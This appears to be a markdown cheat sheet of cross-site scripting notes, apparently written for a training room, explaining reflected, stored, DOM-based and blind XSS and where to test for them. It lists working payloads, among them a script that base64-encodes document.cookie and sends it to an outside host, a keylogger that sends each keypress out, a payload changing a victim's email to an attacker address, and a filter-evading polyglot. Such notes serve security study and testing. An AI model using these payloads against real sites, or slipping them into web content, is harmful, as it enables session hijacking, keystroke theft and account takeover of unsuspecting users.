 # Basic-XSS

## Proof Of Concept:
### Simplest of payloads - demonstrate that you can achieve XSS on a website. Done by causing an alert box to pop up on the page eg:

 `<script>alert('XSS');</script>`
 
 
## Session Stealing:

### Details of a user's session, are often kept in cookies on the targets machine. The below code takes the target's cookie, base64 encodes the cookie to ensure  transmission and then posts it to a website under the hacker's control to be logged. Hacker can then take over the target's session and be logged as that  user.

`<script>fetch('https://somesite.com/steal?cookie=' + btoa(document.cookie));</script>`


## Key Logger:
`<script>document.onkeypress = function(e) { fetch('https://somesite.com/log?key=' + btoa(e.key) );}</script>`


## Business Logic:

### This payload is a lot more specific than the above examples. This would be about calling a particular network resource or a JavaScript function. For example, imagine a JavaScript function for changing the user's email address called user.changeEmail(). Your payload could look like this:

`<script>user.changeEmail('attacker@hacker.com');</script>`

---


# Reflected XSS

### This happens when user-supplied data in an HTTP request is included in the webpage source without any validation.

## Check for reflected XSS in:
1. Parameters in the URL Query String
2. URL File Path
3. Sometimes HTTP Headers (although unlikely exploitable in practice)

---

# Stored XSS

### XSS payload is stored on the web application (in a database, for example) and then gets run when other users visit the site or web page.
### The malicious JavaScript could redirect users to another site, steal the user's session cookie, or perform other website actions while acting as the visiting user.

## Check for stored XSS where it seems data is stored and then shown back in areas that other users have access to eg:

1. Comments on a blog
2. User profile information
3. Website Listings

---

# DOM Based XSS

### JavaScript execution happens directly in the browser without any new pages being loaded or data submitted to backend code. Execution occurs when the website JavaScript code acts on input or user interaction. Crafted links could be sent to potential victims, redirecting them to another website or steal content from the page or the user's session.

---

# Blind XSS

### Payload gets stored on the website for another user to view, but in this instance, you can't see the payload working or be able to test it against yourself first.

### When testing for Blind XSS vulnerabilities,  need to ensure payload has a call back (usually an HTTP request)- can tell if code is being executed.

---
# Polyglot
### String of text which can escape attributes, tags and bypass filters all in one eg:

`jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */onerror=alert('popup') )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert('THM')//>\x3e`



